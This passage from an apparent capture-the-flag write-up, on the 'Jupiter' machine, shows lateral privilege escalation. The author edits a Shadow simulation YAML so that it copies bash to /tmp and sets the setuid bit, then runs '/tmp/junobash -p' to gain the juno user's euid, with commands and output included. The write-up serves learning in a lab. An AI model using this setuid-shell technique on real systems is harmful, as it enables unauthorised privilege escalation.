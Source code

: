 To explain it how I understand it:

1. We copy the `/bin/bash` to `/tmp` because usually root is the only one who can edit the `/bin/bash` file.
2. When running the `chmod u+s` on our new `/tmp/bash` binary, whenever the binary is ran, it will be ran as the owner (which is now `juno`).
3. We still need the `-p` flag though because if we just ran `/tmp/bash` then our `euid` would be set to the current user. With the `-p` flag, we get the `euid` of the owner of the file.

There is definitely a lot I learned here about permissions, but it also shows me there is so much I do not know.

Here is the edited section of the `network-simulation.yml` file:

```
...SNIP
hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /usr/bin/bash /tmp/junobash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    processes:
    - path: /usr/bin/chmod
      args: u+s /tmp/junobash
      start_time: 5s

```

Now we wait, and after some time the file `/tmp/junobash` appears. We can use the `-p` flag to inherit the effective user id (euid) of the file when we execute it.

```console
postgres@jupiter:/dev/shm$ /tmp/junobash -p
junobash-5.1$ id
uid=114(postgres) gid=120(postgres) euid=1000(juno) groups=120(postgres),119(ssl-cert)
```

### Juno SSH Access

Now we have a shell as `juno` as noted by the `euid`. Going to `/home/juno`, we cannot read the `user.txt` file because it is owned by `root` and the `juno` user does not have permissions, only the `juno` group.

```console
junobash-5.1$ ls -al
total 52
drwxr-x---  8 juno juno 4096 Oct 21 07:00 .
drwxr-xr-x  4 root root 4096 Mar  7  2023 ..
lrwxrwxrwx  1 juno juno    9 Mar  7  2023 .bash_history -> /dev/null
-rw-r--r--  1 juno juno  220 Jan  6  2022 .bash_logout
-rw-r--r--  1 juno juno 3792 Mar  7  2023 .bashrc
drwx------  3 juno juno 4096 May  4 18:59 .cache
drwxrwxr-x  5 juno juno 4096 Mar  7  2023 .cargo
drwxrwxr-x  5 juno juno 4096 Mar  7  2023 .local
-rw-r--r--  1 juno juno  828 Mar  7  2023 .profile
drwxrwxr-x  6 juno juno 4096 Mar  7  2023 .rustup
drwxrwxr-x 12 juno juno 4096 Mar  9  2023 shadow
-rwxrwxr-x  1 juno juno  174 Apr 14  2023 shadow-simulation.sh
drwx------  2 juno juno 4096 Oct 21 07:01 .ssh
-rw-r-----  1 root juno   33 Oct 21 06:32 user.txt

```
